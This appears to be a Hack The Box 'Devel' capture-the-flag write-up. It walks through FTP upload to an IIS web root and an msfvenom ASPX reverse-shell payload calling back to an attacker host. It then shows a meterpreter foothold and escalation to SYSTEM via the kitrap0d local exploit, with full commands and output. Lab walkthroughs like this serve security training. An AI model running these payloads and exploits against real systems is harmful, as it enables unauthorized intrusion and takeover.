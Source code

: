 # recon
- windows: ping ttl 127
- port 21 : ftp
  - mount on web directory
  - `put` is allow -> can access the file from webserver.
- port 80/tcp open  http    Microsoft IIS httpd 7.5
  - MS15-034
  - CVE:CVE-2015-1635

we can use the directory in ftp to find web directory /aspnet_client/system_web/2_0_50727/

-nikto
```console
kali@kali:~/script$ nikto -h devel.htb
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.5
+ Target Hostname:    devel.htb
+ Target Port:        80
+ Start Time:         2020-09-22 09:00:24 (GMT-4)
---------------------------------------------------------------------------
+ Server: Microsoft-IIS/7.5
+ Retrieved x-powered-by header: ASP.NET
```
note that the site is use **ASP.NET**
so base on what we know, we can create a reverse shell to get foot hold
- ASP.NET : execute .asp or aspx, try out then you will know.
  - I tried .asp and it didnt work so let go for .aspx
- meterpreter: ```msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<ip> LPORT=6969 -f aspx > shell.aspx```
- non-meterpreter ```msfvenom -p windows/shell/reverse_tcp -e x86/shikata_ga_nai LHOST=<ip> LPORT=6969 -f aspx > shell.asp```

# foot hold
use exploit/multi/handler and listen to reverse shell. now visite the website `devel.htb/shell.aspx` and Boom you got meterpreter shell.
- uid: just web, cant do shit
```
meterpreter > getuid
Server username: IIS APPPOOL\Web
```
- sysinfo
```
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows
```
shell,
```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          25/9/2020, 1:33:57 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 783 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.517 MB
Virtual Memory: In Use:    530 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```
base one hotfix(s), the server never been patch. install date was 2017.


backgroud meterpreter shell and run `multi/recon/local_exploit_suggester`, this will help us find exploit. set session and run it
```
ost(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 34 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
```

# root 
we will use result from `local_exploit_suggester` to gain root access, let start with `ms10_015_kitrap0d`. run `show options` and set everything that needed.

```
msf5 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] Launching notepad to host the exploit...
[+] Process 3032 launched.
[*] Reflectively injecting the exploit DLL into 3032...
[*] Injecting exploit into 3032 ...
[*] Exploit injected. Injecting payload into 3032...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 5 opened (10.10.14.12:4444 -> 10.10.10.5:49158) at 2020-09-22 09:46:26 -0400

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```